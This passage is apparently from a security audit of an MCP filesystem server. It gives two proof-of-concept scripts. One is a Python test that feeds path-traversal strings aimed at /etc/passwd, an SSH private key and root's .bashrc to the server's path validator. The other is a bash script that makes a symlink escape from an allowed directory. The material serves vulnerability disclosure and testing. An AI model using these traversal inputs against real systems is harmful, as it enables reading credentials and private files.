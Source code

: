 ## Proof of Concept Exploits

### Exploit 1: Directory Traversal
```python
#!/usr/bin/env python3
"""
Proof of Concept: Path Traversal in MCP Filesystem Server
This exploit demonstrates the critical path validation bypass.
"""

import asyncio
from mcp_filesystem.security import PathValidator

async def exploit_path_traversal():
    # Setup validator with restricted directory
    allowed_dirs = ["/home/user/safe_directory"]
    validator = PathValidator(allowed_dirs)

    # Attack vectors that should be blocked but aren't
    attack_paths = [
        "/home/user/safe_directory/../../../etc/passwd",
        "/home/user/safe_directory/../.ssh/id_rsa",
        "/home/user/safe_directory/../../root/.bashrc"
    ]

    print("Testing path traversal attacks...")
    for attack_path in attack_paths:
        result_path, allowed = await validator.validate_path(attack_path)
        if allowed:
            print(f"🚨 VULNERABILITY: {attack_path} was ALLOWED!")
            print(f"   Resolved to: {result_path}")
        else:
            print(f"✅ Blocked: {attack_path}")

if __name__ == "__main__":
    asyncio.run(exploit_path_traversal())
```

### Exploit 2: Symlink Attack
```bash
#!/bin/bash
# Create malicious symlink attack
mkdir -p /tmp/allowed_dir
mkdir -p /tmp/restricted_dir
echo "SECRET DATA" > /tmp/restricted_dir/secret.txt

# Create symlink in allowed directory pointing to restricted file
ln -s /tmp/restricted_dir/secret.txt /tmp/allowed_dir/malicious_link

# The server would allow access to this symlink
# even though it points outside the allowed directory
```

